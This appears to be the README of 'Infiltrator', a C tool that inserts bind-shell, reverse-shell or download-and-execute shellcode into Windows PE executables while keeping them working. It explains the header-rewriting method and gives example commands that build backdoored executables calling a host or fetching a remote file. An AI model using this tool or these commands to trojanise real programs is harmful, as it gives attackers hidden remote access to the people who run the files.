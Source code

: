 Infiltrator
===========

Infiltrator 0.1

License:

  This work is licensed under the Creative Commons Attribution-NonCommercial 3.0 Unported License. To view a copy of this license, visit http://creativecommons.org/licenses/by-nc/3.0/.
  
Disclaimer:

	This Tool is for learning & Demonstration only. the author is not responsible for any misuse of this code or tool. 
	
Introduction:

	Intifltrator is my first c project (so dont be so harsh :D). It is a PE Executable backdoor tool. i.e. it inserts payloads in exe files so the exe will function normally and execute our own code through it.
the working model is as follows.

 read input PE IMAGE_DOS_HEADERS --> read input PE IMAGE_NET_HEADERS --> read PE IMAGE_SECTION_HEADER list --> 	add new IMAGE_SECTION_HEADER -- > increase Number of Sections in IMAGE_NT_HEADER.File Header.NumberOfSections -->
increase ImageSize in IMAGE_NT_HEADER.OptionalHeader.ImageSize --> add rest of PE file --> write payload in our new section --> write to new PE file 

Refrences:
https://www.corelan.be/index.php/2010/02/25/exploit-writing-tutorial-part-9-introduction-to-win32-shellcoding/
http://win32assembly.programminghorizon.com
http://en.wikibooks.org/wiki/X86_Disassembly/Windows_Executable_Files#MS-DOS_header
http://www.sunshine2k.de/reversing/tuts/tut_addsec.htm
http://msdn.microsoft.com/en-us/library/ms809762.aspx
http://www.codereversing.com/blog/?p=92
http://www.alex-ionescu.com/part1.pdf

Credits:
		[*] corelanc0d3r "https://www.corelan.be".
				"Thanks for the insight on the threaded shellcode & amazing tutorials"
		[*] Sherif El deeb "http://eldeeb.net/wrdprs/".
				"Thanks for the continous motovation, inspiration, & help through out this"
		[*] Metasploit Team.
				" Thanks for the amazingly well documented project metasploit framework"

Author:
		[*] Saif El-Sherei 	* website: "http://www.elsherei.com" 
							* Twitter: @saif_sherei
							* email: saif.elsherei@gmail.com
Features:
		[*] Three Payload Types (bind tcp, reverse tcp, download and execute).
		[*] Choose between threaded shellcode or blocking shellcode.
		[*] specify shellcode options; no need for hardcoding (see usage below).
		[*] PE executable works normaly without any issues.
Todo:
		[*] Payload encoding.
Usage:

 Infiltrator -i [INPUT EXE] -o [OUTPUT EXE] -k (threaded) or -s (Normal) [type]
                 -p [PORT] -h [HOST] -u [URL] -f [URL path] -of [output file]

[*] Example:

- infiltrator -i "input.exe" -o "output.exe" -k "reverse" -p 1234 -h "127.0.0.1"
- infiltrator -i "input.exe" -o "output.exe" -k "bind" -p 1234 
- infiltrator -i "input.exe" -o "output.exe" -s "download & execute" -u www.test.com -f "test.exe" -of "test-output.exe"

[*] Options:

 -i     INPUT file.exe (PE)
 -o  OUPUT file.exe (PE)
 -s     Normal Shellcode followed by one of the payload
        types
 -k     Threaded Shellcode followed by one of the payload
        types

[*] Payload Types:

 bind                           Bind payload Followed by payload options
 reverse                        Connect Back Payload Followed by payload options

 download & execute     Download & exec Payload Followed by payload options

[*] Payload Options:

 -p [port]                      port to use (Bind or Reverse Payload)
 -h [host]                      Host to connect to (Reverse Payload)
 -u [url]                       URL to connect to (Download & Exec Payload)
 -f [path]                      path to file to fetch (Download & Exec Payload)
 -of[output file]       output file to Execute from  Download & Exec Payload
